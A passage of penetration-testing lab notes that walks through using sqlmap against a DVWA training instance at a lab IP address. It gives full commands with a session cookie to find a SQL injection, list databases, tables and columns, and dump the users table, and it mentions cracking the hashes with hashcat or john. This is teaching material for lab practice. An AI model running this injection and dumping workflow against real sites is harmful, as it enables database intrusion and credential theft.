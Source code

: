 We need to run sqlmap against a vulnerable URL that accepts SQL input; `--batch` allows default options without interruptions. 
`sqlmap -u "http://10.11.1.250/dvwa/vulnerabilities/sqli/?id=1&Submit-Submit#" --batch` 

If we tried this URL directly, we would be directed to a login page. We can remediate by providing it with a PHPSESSID cookie, and provide this to SQLMap. We can retrieve this using `Developer Tools -> Storage -> Cookies` 
We then re-submit the sqlmap query:

```shell
sqlmap -u " http://10.11.1.250/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=5ee561bcdd7a6e01960b0ceded6b1f3b; security=low" --batch --banner
# Once we know the version of the back-end, we can pass this as a parameter to skip fingerprinting -
-dbms="MySQL 5.0"
```

Once we have successfully identified a vulnerable `id` parameter SQL injection, we can enumerate the rest of the database, tables, columns, users, and contents. We can see what is available using the enumeration section:

| Command        | Result                             |
| -------------- | ---------------------------------- |
| -a, --all      | Retrieve everything                |
| -b, --banner   | Retrieve DBMS Banner               |
| --current-user | Retrieve DBMS current user         |
| --current-db   | Retrieve DBMS current database     |
| --hostname     | Retrieve DBMS current hostname     |
| --is-dba       | Detect if DBMS current user is DBA |
| --users        | Enumerate DBMS users               |
| --passwords    | Enumerate password hashes          |
| --privileges   | Enumerate user privileges          |
| --roles        | Enumerate DBMS user roles          |
| --dbs          | Enumerate DBMS databases           |
| --tables       | Enumerate DBMS tables              |
| --columns      | Enumerate DBMS table columns       |
| --schema       | Enumerate DBMS schema              |

Lets get a list of databases on the server:
```shell
sqlmap -u "http://10.11.1.250/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=5ee561bcdd7a6e01960b0ceded6b1f3b; security=low" --batch --dbms="MySQL 5.0" --dbs
# Once retrieved we can get a list of tables from the databases:
sqlmap -u "http://10.11.1.250/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=5ee561bcdd7a6e01960b0ceded6b1f3b; security=low" --batch --dbms="MySQL 5.0" --tables
# With the table details, we can see one for users.  Lets retrieve columns and determine what's available in this table?
sqlmap -u "http://10.11.1.250/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=5ee561bcdd7a6e01960b0ceded6b1f3b; security=low" --batch --dbms="MySQL 5.0" --columns --current-db
```

When we return columns, we can see interesting ones like usernames, and passwords. We can dump the table to view contents with the `-T <table name>`.
```shell
sqlmap -u "http://10.11.1.250/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=5ee561bcdd7a6e01960b0ceded6b1f3b; security=low" --batch --dbms="MySQL 5.0" --dump --current-db -T users
# Returns passwords that were revealed in clear text
# We can also return password hashes and send to hashcat / john
```

### SQLMap Verbosity
